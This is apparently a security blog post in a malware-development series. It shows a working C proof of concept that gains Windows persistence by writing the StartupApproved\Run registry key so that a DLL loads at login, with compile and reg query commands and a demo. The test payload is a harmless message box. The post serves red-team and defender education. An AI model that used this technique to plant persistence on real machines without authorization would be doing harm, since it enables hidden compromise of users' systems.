








\newpage
\subsection{90. malware development: persistence - part 24. StartupApproved. Simple C example.}

﷽

{width="80%"}    

This post is based on my own research into one of the another interesting malware persistence tricks: via StartupApproved Registry key.     

### StartupApproved

The very first post in the series about persistence, I wrote about one of the most popular and already classic techniques, via [Registry Run keys](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html).      

An uncommon Registry entry utilized by the standard "startup" process (i.e., the one mostly controlled by Windows Explorer, such as the `Run` and `RunOnce` keys, the Startup folder, etc.) after `userinit.exe` completes its operation, is located at the following location in the Registry:    

```bash
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run
```

Turns out, this key is populated when entries are enabled or disabled via the Windows Task Manager's `Startup` tab:     

{width="80%"}    

The good news is that we can use this registry path for persistence.     

### practical example

First of all, check Registry keys by the following command:    

```powershell
reg query 
"HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved"
 /s
```

{width="80%"}    

At the next step, as usually, create our "evil" application (`hack.c`):     

```cpp
/*
hack.c
simple DLL messagebox
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

As usually, just `meow-meow` messagebox.      

Then we just modifying our  `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved` registry key, like this (`pers.c`):     

```cpp
/*
pers.c
windows persistence
via StartupApproved
author: @cocomelonc
https://cocomelonc.github.io/malware/2024/03/12/malware-pers-24.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  BYTE data[] = {0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00};

  const char* path = 
  "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\
  StartupApproved\\Run";
  const char* evil = "Z:\\2024-03-12-malware-pers-24\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) path, 0, KEY_WRITE, 
  &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : 
  "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)evil, 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : 
  "successfully set registry value :)\n");

  // close the registry key
  RegCloseKey(hkey);

  return 0;
}
```

As you can the the logic of our Proof of Concept is pretty simple - we set the value of the registry entry to `0x02 0x00...` binary value.      

### demo

Let's go to see everything in action. First of all, compile our "malware" DLL:      

```bash
x86_64-w64-mingw32-g++ -shared -o hack.dll hack.c -fpermissive
```

{width="80%"}    

Then, compile our PoC:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Finally, run it on the victim's machine. In my case, for Windows 10 x64 v1903 VM, it is looks like this:     

```powershell
.\pers.exe
```

{width="80%"}    

As you can see, I also checked registry again:     

```powershell
reg query 
"HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved" 
/s
```

{width="80%"}    

Then, logout and login again:     

{width="80%"}    

{width="80%"}    

But unexpectedly it didn't work for me...    

Then, I just update the name of entry:     

{width="80%"}    

Logout and login, little bit wait.... and it's worked perfectly....

{width="80%"}    

{width="80%"}    

So I updated one line in my script:    

```cpp
/*
pers.c
windows persistence
via StartupApproved
author: @cocomelonc
https://cocomelonc.github.io/malware/2024/03/12/malware-pers-24.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  BYTE data[] = {0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00};

  const char* path = 
  "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\
  StartupApproved\\Run";
  const char* evil = "C:\\temp\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) path, 0, KEY_WRITE, 
  &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : 
  "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)evil, 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : 
  "successfully set registry value :)\n");

  // close the registry key
  RegCloseKey(hkey);

  return 0;
}
```

But there is a caveat. Sometimes when I tested this feature, it launched like Skype for me:     

{width="80%"}    

{width="80%"}    

As you can see, everything worked perfectly as expected! =^..^= :)    

This technique is used by APT groups like [APT28](https://attack.mitre.org/groups/G0007/), [APT29](https://attack.mitre.org/groups/G0016/), [Kimsuky](https://attack.mitre.org/groups/G0094/) and [APT33](https://attack.mitre.org/groups/G0064/) in the wild. In all honesty, this method is widely employed and widespread due to its extreme convenience in deceiving the victims.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[ATT&CK MITRE: T1547.001](https://attack.mitre.org/techniques/T1547/001/)     
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[APT28](https://attack.mitre.org/groups/G0007/)    
[APT29](https://attack.mitre.org/groups/G0016/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)    
[APT33](https://attack.mitre.org/groups/G0064/)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-03-12-malware-pers-24)     
